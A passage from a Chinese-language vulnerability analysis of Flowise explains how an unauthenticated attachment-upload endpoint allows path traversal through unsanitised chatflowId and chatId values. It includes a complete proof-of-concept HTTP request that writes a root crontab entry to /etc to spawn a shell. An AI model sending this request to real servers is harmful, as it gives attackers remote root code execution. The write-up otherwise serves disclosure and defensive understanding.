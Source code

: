 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9j4iaicnia70rAJcXAYia70ovhiaXxTtH24bdOyGItEXcGVROyHZ6WqEAriag/640?wx_fmt=png&from=appmsg "")  
  
```
POST /api/v1/attachments/..%2f..%2f..%2f..%2f..%2fetc/./ HTTP/1.1  
Host: yourURL  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Length: 219  
  
------WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Disposition: form-data; name="files"; filename="crontab"  
Content-Type: text/plain  

*/1 * * * * root bash -c "your shell"

------WebKitFormBoundary7MA4YWxkTrZu0gW--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9V9LZI4tb6t709KbDK4wBV2ibpeGjMFPznF7PPoDx8EYqF0LCpichy1MQ/640?wx_fmt=png&from=appmsg "")  
## 0x06 漏洞分析  
### 1) API 白名单机制  
  
在 Flowise 平台的核心架构中，存在一个名为 constants.ts  
 的文件。这个文件中定义了一个名为 WHITELIST_URLS  
 的变量，它包含了一系列无需认证即可访问的API端点。这种设计的目的是为了方便实现一些特定功能，例如API密钥验证、公共聊天流和文件操作等。这些功能不需要用户进行身份认证就可以运行，从而提升了用户体验和系统的灵活性。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9cTgvOCSyiacwicaJCYjp06ZDY9b54RsVEic3G0kDJ0wiaZic06yn05zAicmA/640?wx_fmt=png&from=appmsg "")  
### 2) 鉴权流程  
  
当服务器接收到HTTP请求时，会按照严格的逻辑进行鉴权：首先检查请求路径是否包含 /api/v1  
 前缀（不区分大小写），接着进行大小写敏感的路径验证；然后判断该URL是否在白名单 WHITELIST_URLS  
 中，如果在白名单内，就继续处理请求；如果不在白名单内，再检查请求头中是否有 internal  
 标记，或者验证API密钥，只有通过这些检查后，请求才会被允许继续处理  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9AhAZgJlfhibTammDdT7QZVbGgZ7nHyyZTkgBMtSM0ET2rAJXQADI7ow/640?wx_fmt=png&from=appmsg "")  
### 3) 文件上传处理逻辑  
  
/api/v1/attachments/  
 路由负责处理文件上传创建操作。在 createFileAttachment  
 函数里，会调用addArrayFilesToStorage  
 处理文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik988FTmOLFgy8VYyibUokhLNlCoicibcCpLiaZThNVkZaP92ApccsOdqXKgA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9sD0NlSJV3hsR7niaiaR8f894quguBpuVaBvB7hLUOMk8Cq6F94uia5d6A/640?wx_fmt=png&from=appmsg "")  
  
在 addArrayFilesToStorage  
 函数处理文件地址时，会把 chatflowId  
 和 chatId  
 直接拼接到路径里，而且没有进行任何处理，这就导致攻击者能通过编码绕过目录限制，实现跨目录上传，这就是漏洞产生的关键原因。  
  